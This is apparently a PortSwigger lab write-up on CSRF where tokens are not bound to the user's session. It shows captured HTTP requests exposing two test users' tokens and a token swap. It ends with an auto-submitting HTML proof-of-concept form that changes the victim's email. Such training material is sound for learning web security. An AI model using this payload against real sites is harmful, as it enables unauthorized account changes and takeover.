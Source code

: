 ## Lab Description :

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/4bc321cd-61f3-450a-8e7b-dcdf487ba19c)


## Overview :

Some applications do not validate that the token belongs to the same session as the user who is making the request. Instead, the application maintains a global pool of tokens that it has issued and accepts any token that appears in this pool.

In this situation, the attacker can log in to the application using their own account, obtain a valid token, and then feed that token to the victim user in their CSRF attack. 

Faulty appplication logic might look like,

```python
def validate_token():
 if request.csrf_token:
 if (request.csrf_token in valid_csrf_tokens):
 pass
 else:
 throw_error("CSRF token incorrect. Request rejected.")
[...]
def process_state_changing_action():
 validate_token()
 ```

## Solution :

If the csrf token is not tied to a user's session, then we can **provide any other valid csrf token of other user**. Reason behind is that the server only checks if the token is valid and not checking whether the token  belongs to that user or not.

**Let's now login as wiener & get his csrf token -**

When we update email of wiener, we can see the csrf token of wiener in the request.

```http
POST /my-account/change-email HTTP/2
Host: 0ab100cd04c72c3b82e93e0b0079000e.web-security-academy.net
Cookie: session=9PB8Veq3lkJHgs2D4HZnfvUKuJOGvxnd
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/113.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 61
Origin: https://0ab100cd04c72c3b82e93e0b0079000e.web-security-academy.net
Referer: https://0ab100cd04c72c3b82e93e0b0079000e.web-security-academy.net/my-account?id=wiener
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers

email=wiener%40user.net&csrf=6Wy58vHSJAKJJdZzmwioYeLDCxGeexP4
```
- Wiener's csrf token - `6Wy58vHSJAKJJdZzmwioYeLDCxGeexP4`  

**Now we can login as montoya to get her csrf token -**

Login to carlos's account in a incognito tab.

```http
POST /my-account/change-email HTTP/2
Host: 0ab100cd04c72c3b82e93e0b0079000e.web-security-academy.net
Cookie: session=x4B7o8ZwRIVNSEkvEiyDDuuJ2dQEmqHI
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/113.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 59
Origin: https://0ab100cd04c72c3b82e93e0b0079000e.web-security-academy.net
Referer: https://0ab100cd04c72c3b82e93e0b0079000e.web-security-academy.net/my-account?id=carlos
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers

email=test%40user.net&csrf=V7b2azJ1ChGis7L0p2dCyFazJpCWoFMP
```

- Carlos's csrf token - `V7b2azJ1ChGis7L0p2dCyFazJpCWoFMP`

Now we should try to change the value of carlos's csrf token & replace it with wiener's.

````http
POST /my-account/change-email HTTP/2
Host: 0ab100cd04c72c3b82e93e0b0079000e.web-security-academy.net
Cookie: session=x4B7o8ZwRIVNSEkvEiyDDuuJ2dQEmqHI
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/113.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 59
Origin: https://0ab100cd04c72c3b82e93e0b0079000e.web-security-academy.net
Referer: https://0ab100cd04c72c3b82e93e0b0079000e.web-security-academy.net/my-account?id=carlos
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers

email=test%40user.net&csrf=6Wy58vHSJAKJJdZzmwioYeLDCxGeexP4
```

Now generate CSRF POC and deliver it to victim via exploit server.

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://0ab100cd04c72c3b82e93e0b0079000e.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="pwned&#64;user&#46;net" />
      <input type="hidden" name="csrf" value="6Wy58vHSJAKJJdZzmwioYeLDCxGeexP4" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```

Thus we solved the lab,

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/928e874e-5037-4f39-8342-03fe0b4f6acc)









 
 
